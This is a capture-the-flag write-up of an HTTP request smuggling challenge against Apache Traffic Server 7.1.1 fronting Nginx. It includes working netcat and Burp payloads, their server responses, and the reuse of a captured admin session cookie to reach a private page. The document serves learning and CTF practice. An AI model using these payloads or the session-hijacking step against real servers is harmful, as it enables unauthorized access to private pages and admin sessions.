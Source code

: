 ## 3 of hearts

> Solved too late by : Starry-lord

```
Port 33337
```

I solved this one after the competition but still felt compelled to share the process.

This one gave me a hard time, firstly because I hadn't seen HTTP request smuggling scenarios before. 

Trying to connect to the target IP:33337 redirects to a domain name 

```
threeofhearts.ctf.net
```

And displays an empty page with only the following content:

```
<script>console.log(zp2)</script>
```

Some snooping showed me the initial request was made to an Apache traffic server 7.1.1 and the second one to an Nginx server 1.15.5. 
After a few research I realized there wasn't much resource on the subject, but here's what I found :

- PortSwigger Web academy
- https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f 
- https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/

Sadly no time for going through academy through the ctf but will definitely look into it in a nearby future. 

I used 2 ways to try and see what was going on :

### Way n°1 - CLI

```
printf 'GET_/somthingthatdoesntexist_HTTP/1.1\r\n'\
'Host:threeofhearts.ctf.net\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://threeofhearts.ctf.net/_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 172.17.15.117 33337
```

So here we manage to get double request by adding 65534 empty spaces between 2 get requests. 

First one results in a 400 error and second request goes through and shows the content of the internal website. 

```
┌──(kali㉿kali)-[~/.starlord]
└─$ printf 'GET_/somethingNotThere_HTTP/1.1\r\n'\
'Host:threeofhearts.ctf.net\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://threeofhearts.ctf.net/out/save.txt_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 172.17.15.117 33337
HTTP/1.1 400 Invalid HTTP Request
Date: Sun, 05 Dec 2021 23:34:29 GMT
Connection: keep-alive
Server: ATS/7.1.1
Cache-Control: no-store
Content-Type: text/html
Content-Language: en
Content-Length: 220

<HTML>
<HEAD>
<TITLE>Bad Request</TITLE>
</HEAD>

<BODY BGCOLOR="white" FGCOLOR="black">
<H1>Bad Request</H1>
<HR>

<FONT FACE="Helvetica,Arial"><B>
Description: Could not process this request. 
</B></FONT>
<HR>
</BODY>
HTTP/1.1 200 OK
Server: ATS/7.1.1
Date: Sun, 05 Dec 2021 23:34:29 GMT
Content-Type: text/plain
Content-Length: 151
Last-Modified: Sun, 05 Dec 2021 23:08:15 GMT
ETag: "61ad465f-97"
X-Requested: /out/save.txt
Accept-Ranges: bytes
Age: 0
Connection: keep-alive

Params:
Headers:
        X-Access: 
        Cookie: 

Params:
        cache=0
Headers:
        X-Access: 
        Cookie: 

Params:
        var1=star
        var2=lord
Headers:
        X-Access: 
        Cookie: 

                                                                                
┌──(kali㉿kali)-[~/.starlord]
└─$ 
```

### WAY n°2 - BurpSuite

It also worked with just a 0 in between GET requests and would be easier to input to burpsuite. 

The website's content would only show itself in a browser if the request was intercepted and its “Host” header manually set to threeofhearts.ctf.net

From there I found a small page with a PHP form for var1 and var2. By pressing submit, a GET request would be sent to /save.php and populate an entry in the above queried file (/out/save.txt).

There was a /private.php we were denied access to, where the flag was clearly hidden. This is the point where I had most trouble trouble realizing what was going on. 

I knew we had to craft or find the right cookie to access the private.php but didn't understand the fundamental of the HTTP request smuggling attack.

Turns out when you manage to split the request successfully, the second one will be sent from the server, which means admin headers in /out/save.txt in this case.

This was the burp request :

```
GET / HTTP/1.1
Host: threeofhearts.ctf
Transfer-Encoding: chunked
Content-Length:53

0

GET /save.php?var1=something&var2=something HTTP/1.1
```

Then making a request to /out/save.txt showed the following :

```
Headers:
  X-Access: private
  Cookie: PHPSESSID=theAdminPhpSessionId
  
Params:
  var1=something
  var2=something
Headers:
  X-Access:
  Cookie:
```

visiting /private.php with those header gave the un-guessable page link for the flag.

![](https://i.imgur.com/VPSwASa.png)
